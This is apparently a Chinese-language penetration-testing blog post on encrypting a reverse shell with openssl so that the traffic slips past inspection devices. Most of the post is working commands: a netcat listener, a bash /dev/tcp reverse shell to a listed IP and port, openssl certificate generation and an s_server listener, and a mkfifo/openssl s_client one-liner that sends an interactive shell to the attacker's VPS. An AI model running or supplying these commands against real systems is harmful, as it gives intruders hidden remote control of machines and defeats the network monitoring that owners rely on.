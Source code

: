 ```yaml
---
title: "Encrypt Reverse Shell"
date: 2019-08-26T12:55:07+08:00
lastmod: 2019-08-26T12:55:07+08:00
draft: false
tags: ['reverse','shell']
categories: ['渗透测试']
comment: true
---
```

利用openssl加密你的shell
<!--more-->

在我们实际的渗透测试过程中，总是有各种各样的流量审查设备挡住我们通往system的道路，尤其是在反弹shell的时候，明文传输的shell总是容易断，那么本文介绍一种利用openssl反弹流量加密的shell来绕过流量审查设备。

# 常规bash反弹

vps执行 `nc -lvvp 4444`

目标主机执行 `bash -i >& /dev/tcp/172.16.1.1/4444 0>&1`

![20190826131727](https://y4er.com/img/uploads/20190826131727.png)

流量明文传输，很容易被拦截。

# openssl加密传输

第一步，在vps上生成SSL证书的公钥/私钥对
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```
第二步，在VPS监听反弹shell
```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port 4433
```
第三步，在目标上用openssl加密反弹shell的流量
```bash
mkfifo /tmp/s;/bin/bash -i < /tmp/s 2>&1|openssl s_client -quiet -connect vps:443 > /tmp/s;rm /tmp/s
```

![20190826132310](https://y4er.com/img/uploads/20190826132310.png)

流量已经被加密。

# 参考链接

1. https://www.t00ls.net/articles-52477.html
2. https://www.freebuf.com/vuls/211847.html
3. https://www.cnblogs.com/heycomputer/articles/10697865.html

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**